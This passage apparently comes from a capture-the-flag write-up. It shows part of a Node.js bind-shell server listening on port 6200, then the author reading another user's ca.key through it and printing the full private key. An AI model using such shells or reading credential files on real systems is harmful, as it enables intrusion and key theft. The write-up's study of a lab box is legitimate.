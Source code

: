 ```bash
           socket.write(data)\n
       })\n
       sh.stderr.on('data', function (data) {\n
           socket.write(data)\n
       })\n
       socket.on('data', function (data) {\n
   \ttry {\n
             sh.stdin.write(data)\n
   \t}\n
   \tcatch(e) {\n
   \t  socket.end()\n
   \t}\n
       })\n
       socket.on('end', function () {\n
       })\n
       socket.on('error', function () {\n
       })\n
   });\n
   \n
   server.listen(6200, '0.0.0.0');\n
```

We see that server.js which is in dali’s home dir is serving the psyshell. 

We go into user nairobi’s home dir, and found the ca.key:

```bash
   file_get_contents("/home/nairobi/ca.key")
   
 -----BEGIN PRIVATE KEY-----\n
 MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb\n
 7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/\n
 2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl\n
 uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M\n
 YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp\n
 s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us\n
 PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V\n
 Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89\n
 1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ\n
 /CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+\n
 q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr\n
 uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd\n
 I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og\n
 7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE\n
 G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn\n
 sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH\n
 CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y\n
 sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI\n
 ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2\n
 zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/\n
 ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC\n
 9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M\n
 WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM\n
 7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR\n
 aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc\n
 53udBEzjt3WPqYGkkDknVhjD\n
 -----END PRIVATE KEY-----\n

```
